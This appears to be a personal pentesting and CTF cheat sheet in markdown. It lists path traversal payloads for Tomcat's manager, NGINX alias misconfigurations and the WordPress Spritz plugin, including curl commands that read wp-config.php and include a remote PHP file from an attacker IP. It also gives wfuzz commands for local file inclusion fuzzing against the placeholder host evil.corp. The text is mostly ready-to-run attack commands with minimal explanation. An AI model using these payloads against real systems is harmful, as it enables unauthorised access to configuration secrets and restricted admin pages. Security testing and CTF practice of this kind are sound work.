 ## Tomcat path traversal

https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/

```
http://evil.corp/manager/status/..;/html
```

sometimes above is useful if NGINX / Apache web server have access restriction for /manager/html

## NGINX path traversal

https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/

```
http://evil.corp/admin../server-status
```

## WordPress Spritz path traversal

```
curl "http://evil.corp/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php"

curl "http://evil.corp/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http://10.10.14.47/nfo.php"
```

## WFUZZ usage

### LFI case
https://book.hacktricks.xyz/pentesting-web/file-inclusion
https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_linux.txt

```
wfuzz -c -u http://evil.corp/admin/index.php?page=FUZZ -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 123

wfuzz -c -w file_inclusion_linux.txt "http://evil.corp/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=FUZZ" --hw 0
```

TODO: make some better LFI fuzzing file by using LFI-Jhaddix as example, but clean up and add some stuff that have been in other CTFs (maybe - if not lazy?!)

### fuzzing range

```
wfuzz -c --hc 404 -z range,0-9 -z range,0-9 http://evil.corp/documents/2021-0FUZZ-0FUZ2Z.txt
```

## SMB / RPC
